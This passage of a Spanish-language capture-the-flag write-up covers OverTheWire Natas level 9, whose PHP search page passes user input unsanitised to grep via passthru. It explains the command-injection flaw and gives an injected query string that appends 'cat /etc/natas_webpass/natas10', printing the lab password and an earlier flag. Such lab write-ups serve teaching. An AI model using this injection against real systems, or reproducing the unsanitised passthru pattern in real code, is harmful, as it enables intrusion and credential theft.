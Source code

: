 > Flag: ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t

## Level 10

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

```shell
"Buscamos: test"

http://natas9.natas.labs.overthewire.org/?needle=test&submit=Search

"Source"

Output:
<pre>
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```

**Uso de `passthru` sin validación**: El uso directo de la entrada del usuario en el comando `grep` sin ninguna validación o sanitización es un riesgo de **inyección de comandos**. Esto permitiría que un atacante introduzca comandos adicionales a través de `$key` para ejecutarlos en el sistema.

```python
http://natas9.natas.labs.overthewire.org/?needle=test; cat /etc/natas_webpass/natas10

# Inyectammos el comando cat despues de cerrar la busqueda

Output:

t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
```

> Flag: t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu
